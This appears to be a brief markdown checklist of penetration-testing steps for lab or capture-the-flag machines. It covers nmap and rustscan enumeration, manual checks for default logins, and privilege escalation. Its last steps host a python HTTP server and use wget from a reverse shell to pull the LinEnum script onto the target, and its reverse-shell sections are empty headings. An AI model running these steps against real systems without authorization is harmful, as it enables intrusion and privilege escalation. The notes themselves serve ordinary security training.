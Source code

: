 ## Setting
#export ip 
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP. 
3. Check which ports are open. Take note of service running and versions(for searchsploit)
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
1.Automated scan for vulnerabilities or manual ennumeration.\
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh\
3.Host a python server python3 -m http.server 8080 to transfer the linEum.sh\
4.From the reverse shell, wget http://$myIP:8080 . to recieve the linEum.sh File\
 
